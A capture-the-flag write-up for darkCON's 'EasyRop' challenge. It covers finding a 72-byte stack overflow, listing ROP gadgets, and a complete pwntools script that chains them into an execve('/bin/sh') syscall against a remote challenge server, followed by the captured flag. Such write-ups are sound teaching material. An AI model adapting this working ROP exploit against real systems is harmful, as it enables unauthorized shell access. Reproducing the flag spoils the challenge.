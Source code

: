 # EasyRop - Writeup

![challenge description](./chall_description.png)<br>

## Recon
We are given a binary that takes user input and then exits:
`
Welcome to the darkcon pwn!!
Let us know your name:lightstack
`

Using `file` I learned, that we were working with a 64bit binary that was dynamically linked and (using checksec) had PIE (so ASLR) disabled.
When inputting a lot of A's, we get a segmentation fault, that means we have a buffer overflow.

By inputting a pattern generated by pythons pwntools cyclic generator, I found out, that the padding (so the memory space reserved for the input on the stack) was 72bytes.

The next 8bytes are the return pointer that will be POPped.

Now I thought about my objective:
Getting a shell

What do we have to do so:
	1.Write "/bin/sh" somewhere in memory
	2.make a syscall or call system with the first parameter being the 
	  location of the string, and the two next parameters being just anything 

The challenge is called EasyROP, so let's look for some fitting ROP gadgets.
I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) and came up with the following list of gadgets I would need:

\[+] Gadget found: 0x4012d3 syscall 							; making the syscall
\[+] Gadget found: 0x481e65 mov qword ptr \[rsi], rax ; ret 	; writing memory 
\[+] Gadget found: 0x40f4be pop rsi ; ret 					; controlling the rsi register
\[+] Gadget found: 0x4175eb pop rax ; ret 					; controlling rax
\[+] Gadget found: 0x40191a pop rdi ; ret 					; ...
\[+] Gadget found: 0x40f4be pop rsi ; ret 
\[+] Gadget found: 0x40181f pop rdx ; ret


## The Plan

pop writable location into rsi >> 
pop "/bin/sh" into rax >> 
call write gadget >> 
pop writable +8 into rsi >> 
pop (anything) into rax >> 
call writegadget >> 
pop /bin/sh location into rdi (the first syscall parameter) >> 
pop the junk data location into rsi and rdx (2. and 3. argument) >>
pop 0x3b into rax (=(dec)59; syscall number for execve) >> 
make syscall

--------------------------------

I am using python pwntools for writing the exploit:

```py
#!/usr/bin/env python3
from pwn import *

def main():
	#io = process("./easy-rop") # For debugging
	io = remote("65.1.92.179",49153)
	pre_data = io.recvuntil("your name:")
	
	payload = b"A"*72 # padding

	#Writing /bin/sh
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0) 	# Value for rsi, rw in .data
	payload += p64(0x4175eb)	# pop rax gadget
	payload += b"/bin//sh"		# value for rax that will be written into loc of rsi, we use 2*/ for getting to 8 byte, not seven
	payload += p64(0x481e65)	# mov [rsi], rax gadget for writing string
	
	#Writing null byte into .data+0x8	
	payload += p64(0x40f4be)    # pop rsi gadget 
	payload += p64(0x004c00e0+0x8)# Value for rsi, rw in .data+0x8 so the next argument for execve
	payload += p64(0x4175eb)    # pop rax gadget
	payload += p64(0x0)       	# value for rax, so 0x0 for the array as arguments
	payload += p64(0x481e65)    # mov [rsi], rax gadget for writing string
	
		
	#Preparing syscall
	payload += p64(0x40191a)	# pop rdi gadget
	payload += p64(0x004c00e0)	# value for rdi (location of string = rsi)
	payload += p64(0x40181f)	# pop rdx gadget
	payload += p64(0x004c00e0+0x8)# Value for rdx
	payload += p64(0x4175eb)	# pop rax gadget
	payload += p64(0x3b)		# rax value = (dec) 59 = execve syscall number
	payload += p64(0x40f4be)	# pop rsi gadget 
	payload += p64(0x004c00e0+0x8) 	# value for rsi 
	
	#Make syscall
	payload += p64(0x4012d3) 	# syscall gadget	
	

	input("Send payload")
	io.sendline(payload)
	io.interactive()
	
	io.close()

if __name__=="__main__":
	main()

```


When executing it we get the following output:
![terminal output](./terminal_exploit_execution.png)

Well done! 
We got the flag `darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}` !
